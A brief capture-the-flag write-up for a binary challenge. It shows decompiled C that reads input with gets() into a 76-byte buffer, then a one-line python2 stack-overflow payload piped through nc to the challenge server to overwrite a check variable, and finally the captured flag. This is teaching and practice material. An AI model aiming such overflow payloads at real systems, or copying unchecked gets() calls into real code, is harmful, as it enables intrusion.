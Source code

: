 # PWN F111 - Part 4

## Problem

We have to now get the flag stored on the remote server in flag.txt. The binary already reads this file for us. We just need to pass a check. Decompiled C code:

```c
...
char local_78 [76];
int local_2c;
FILE *local_28;
int local_1c;

local_1c = 7;
local_2c = 0;
printf("Enter your name!> ");
gets(local_78);
if (local_2c == 0x5a) {
    local_28 = fopen("flag.txt","r");
...
```

## Solution

This doesn't require a complicated exploit so we just send the required bytes to the server via python2 printing to stdout and piping this to the program.

```python2
python2 -c "print b'A'*76 + b'\x5a\x00\x00\x00\x00'" | nc 144.24.133.118 6004
```

## Flag

```
cruXcrypt{buff3r_0v3rfl0w_my_b3l0ved}
```
